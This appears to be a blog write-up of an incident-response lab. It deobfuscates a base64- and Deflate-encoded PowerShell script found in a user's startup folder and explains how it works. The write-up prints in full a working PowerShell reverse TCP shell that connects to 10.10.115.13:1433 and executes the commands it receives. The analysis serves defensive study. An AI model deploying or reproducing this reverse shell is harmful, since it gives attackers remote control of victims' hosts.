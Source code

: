 ```yaml
---
title: "PowerShell"
classes: wide
header:
  teaser: /assets/images/Tutorials/PS-Walk_Through/path.jpg
ribbon: Green
description: "Obfuscated PowerShell walk-through..."
categories:
  - Tutorials
toc: true
---
```


## Scenario
Analyst!

We found this in a startup folder on a user's host. Sheesh.

This thing makes my brain hurt just by looking at it. Can you figure this out for us, please?

Thanks,

IR Team

---
## file investigation

At first look, I found the lab provides a zip file and a Readme file where the scenario is written. On extracting the file and opening it in VSCode, I found that it seemed like **PowerShell code** so changed the extension to ps1.

![FL](/assets/images/Tutorials/PS-Walk_Through/FL.png)

As you can see the iEx command means to invoke what is coming next and the pipe which makes sense that the code has two parts.

## Deobfuscation
let's break the code. `iEx(nEW-ObJECt  Io.CoMpRESSiOn.defLaTEstReam([iO.memoRYStREam][sYsteM.coNvert]::FROmbaSe64StRiNG` this part has the invoce instruction but what shall be invoced?!!
If you look from a good perspective you will find that this line performs the **Deobfuscation**. First `[system.convert]::FROmbaSe64StRiNG` retrieves the string from B64 then `[io.memoryStream]` creates a new MemoryStream object in which the decoded byte array will be stored. At last `new-Object io.compression.deflateStream` creates a new DeflateStream object used to decompress data that has been compressed using the Deflate algorithm. so it would be really easy to decode the strange part leave it now.
I would prefer to have a look at what resides after the pipe `% {nEW-ObJECt SYsteM.Io.strEAmReAder($_,[SysTEm.TExT.eNCoDIng]::aSCIi) }| % { $_.reaDtoEnD()}` that simply will read data from a stream and outputs the entire content as a string.
So now we need to know what is the stream, For that mission, I would try PowerShell itself but I must at first remove the invoke `iEx` and then store the rest script in the new var.

![FR](/assets/images/Tutorials/PS-Walk_Through/fr.png)

As long as there is no error, we are good ;). So let's see what has been stored in that var.

![content](/assets/images/Tutorials/PS-Walk_Through/content.png)

that's a piece of good news we found our destination.

```powershell

########################################################################";
#                                                                      #";
#                        PowerShell Reverse TCP v3.5                   #";
#                                          by Ivan Sincek              #";
#                                                                      #";
# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
#                                                                      #";
#########################################################################";


$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
 $ip = "10.10.115.13"
 $port = 1433
 $client = New-Object Net.Sockets.TcpClient($ip, $port);
 $stream = $client.GetStream();
 $buffer = New-Object Byte[] 1024;
 $encoding = New-Object Text.AsciiEncoding;
 $writer = New-Object IO.StreamWriter($stream);
 $writer.AutoFlush = $true;
 $bytes = 0;
 do {
 $writer.Write("PS>");
 do {
 $bytes = $stream.Read($buffer, 0, $buffer.Length);
 if ($bytes -gt 0) {
 $data = $data + $encoding.GetString($buffer, 0, $bytes);
 }
 } while ($stream.DataAvailable);
 if ($bytes -gt 0) {
 $data = $data.Trim();
 if ($data.Length -gt 0) {
 try {
 $result = Invoke-Expression -Command $data 2>&1 | Out-String;
 } catch {
 $result = $_.Exception | Out-String;
 }
 Clear-Variable -Name "data";
 $length = $result.Length;
 if ($length -gt 0) {
 $count = 0;
 do {
 if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
 $writer.Write($result.substring($count, $bytes));
 $count += $bytes;
 $length -= $bytes;
 } while ($length -gt 0);
 Clear-Variable -Name "result";
 }
 }
 }
 } while ($bytes -gt 0);
} catch {
 $_.Exception.InnerException.Message;
} finally {
 if ($writer -ne $null) {
 $writer.Close();
 $writer.Dispose();
 Clear-Variable -Name "writer";
 }
 if ($stream -ne $null) {
 $stream.Close();
 $stream.Dispose();
 Clear-Variable -Name "stream";
 }
 if ($client -ne $null) {
 $client.Close();
 $client.Dispose();
 Clear-Variable -Name "client";
 }
 if ($buffer -ne $null) {
 $buffer.Clear();
 Clear-Variable -Name "buffer";
 }
 if ($result -ne $null) {
 Clear-Variable -Name "result";
 }
 if ($data -ne $null) {
 Clear-Variable -Name "data";
 }
 [System.GC]::Collect();
}
```
## Code illustration

To understand this let's break it into small parts, the code has four parts:

1- Script Information Block: The initial block is a comment section providing metadata about the script such as version, author, GitHub repository, and donation address.

2- Variable Initialization: $client, $stream, $buffer, $writer, $data, and $result are initialized to $null

3- Try Catch Block:
that's the most interesting block where the script tries to establish a TCP connection with C2.
first set port and ip `10.10.115.13 : 1433` then establish TCP connection:
- $client is created as a new TCP client connecting to the specified IP and port.
- $stream is obtained from the TCP client to facilitate data transmission.
- $buffer is a byte array of size 1024 to store incoming data.
- $encoding is set to ASCII encoding.
- $writer is an IO.StreamWriter for writing data to the stream with AutoFlush set to $true.
after that the script enters a do loop which continually prompts the remote user with "PS>" and waits for commands, reads incoming data from the stream into the buffer until no more data is available and converts the byte data to a string using ASCII encoding and appends it to **$data**.
after that enters the inner loop, if $data is not empty, it attempts to execute the PowerShell command using Invoke-Expression, captures the output or exception into $result and finally clears $data. Of course, if there is an exception that is where the catch comes to act.

4- Final Block: finally, loses and disposes of the writer, stream, client, and clears all variables and Forces garbage collection with  `[System.GC]::Collect()`.

## Conclusion

In this investigation, we analyzed an obfuscated PowerShell script found in a user's startup folder. The script, once deobfuscated, revealed itself as a PowerShell reverse TCP script by Ivan Sincek, designed to allow remote command execution on the compromised host.

### Key Findings
Obfuscation:
The script uses base64 decoding and Deflate compression to hide its true function.
Deobfuscation revealed the script's purpose and content.

Functionality:
Establishes a TCP connection to a remote IP (10.10.115.13) on port 1433.
Reads commands from the attacker, executes them and sends back the results.

**Code Structure:**

Initialization: 
Sets up variables and TCP connection.
Command Execution Loop: Continuously reads and executes remote commands.
Cleanup: Handles exceptions and disposes of resources.

## Tools
- VSCode
- Cmder

#### Written by

## *Karim Gomaa*
